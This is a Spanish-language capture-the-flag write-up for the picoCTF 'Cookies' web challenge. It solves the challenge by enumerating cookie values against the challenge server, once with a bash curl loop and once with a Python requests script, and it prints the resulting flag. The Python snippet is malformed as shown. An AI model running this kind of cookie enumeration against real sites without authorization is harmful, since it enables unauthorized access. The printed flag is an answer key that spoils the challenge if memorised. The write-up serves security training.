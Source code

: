 ## Descripción 
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:27177/](http://mercury.picoctf.net:27177/)
## Solución 1

Usando linux

Primero nos conectamos a la página y vemos que tenemos que poner nombres de galletas para que nos de la bandera, ponemos algunos nombres y nos dice si son correctas o in correctas pero es difícil encontrar la correcta.

Abrimos linux y utilizamos un comando usando for para encontrar la bandera.
Usando el comando for i con curl -H y "Cookie" name=$! para que nos de los nombres de las galletas, pero usando el comando | grep picoCTF sacamos la bandera entre todas las opciones

```
Utilizando el comando for i in {1..20}; do curl -H "Cookie: name=$i" http://mercury.picoctf.net:27177/check; done | grep picoCTF

flag: picoCTF{3v3ry1_l0v3s_c00k135_064663be}

```

## Solución 2

Usando python

Usamos el comando nano exp.py para crear un archivo de python y hacer un ciclo para sacar la posible bandera entre tantas opciones, hacemos el ciclo y corremos con python exp.py y nos arroja la bandera directamente 

```
vSalazarZ-picoctf@webshell:~$ nano exp.py

import requests 
import re 

url= "http://mercury.picoctf.net:27177/check"
for i in range(20): cookies = {'name':'{}'.format(i)}
	#printf(cookies)
	r = requests.get(url, cookies=cookies)
	if 'picoCTF' in r.text: 
		#print(r.text) 
		flag = re.findall('picoCTF{.*?}',r.text)[0] 
		print(flag)

vSalazarZ-picoctf@webshell:~$ python exp.py
picoCTF{3v3ry1_l0v3s_c00k135_064663be}
vSalazarZ-picoctf@webshell:~$ 

flag: picoCTF{3v3ry1_l0v3s_c00k135_064663be}
```
